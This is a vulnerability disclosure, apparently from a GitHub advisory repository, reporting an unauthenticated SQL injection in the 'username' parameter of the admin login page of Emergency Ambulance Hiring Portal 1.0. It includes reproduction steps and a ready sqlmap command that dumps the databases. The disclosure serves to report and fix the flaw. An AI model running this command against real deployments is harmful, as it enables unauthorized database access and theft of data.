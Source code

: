 ## Emergency Ambulance Hiring Portal 

**Bug Description:**

A vulnerability has been found in Emergency Ambulance Hiring Portal 1.0 and classified as critical. It has an SQL injection vulnerability in "/admin/login" endpoint. The manipulation of the parameter "username" leads to SQL injection. Remote attackers can leverage this vulnerability to manipulate a web application's SQL query by injecting malicious SQL code. This can lead to unauthorized access to databases, data theft, data manipulation, and other malicious activities.


Steps to Reproduce:

```
# Exploit Title: Unauthenticated SQL Injection in Admin Login Page of Emergency Ambulance Hiring Portal 
# Date: 28-03-2024
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/emergency-ambulance-hiring-portal-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE:
```

To exploit the vulnerability:

1- First visit the admin login endpoint http://localhost/eahp/admin/login.php .

2- Capture the request after entering random username and password and save it in a file. Then using the below command on SQLmap, we can fetch the databases as "username" parameter is vulnerable to SQL injection.

python sqlmap.py -r request.txt -p username --ignore-code 401 --level 5 --risk 2 --batch --dbs

<img width="763" alt="sqli" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/f0381070-4f0c-471d-8022-829382d91965">
